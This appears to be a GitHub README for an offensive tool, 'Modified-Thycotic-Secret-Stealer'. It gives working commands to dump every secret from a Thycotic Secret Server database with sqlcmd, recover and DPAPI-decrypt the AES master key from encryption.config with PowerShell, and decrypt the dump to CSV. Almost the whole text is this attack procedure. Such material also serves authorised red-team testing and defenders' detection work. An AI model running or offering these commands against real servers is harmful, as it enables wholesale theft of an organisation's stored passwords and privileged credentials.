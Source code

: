 # Modified-Thycotic-Secret-Stealer for v10.8+ with DPAPI Integration

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
Big thanks to curi0usJack and his original post here: https://www.trustedsec.com/blog/thycotic-secret-server-offline-decryption-methodology/


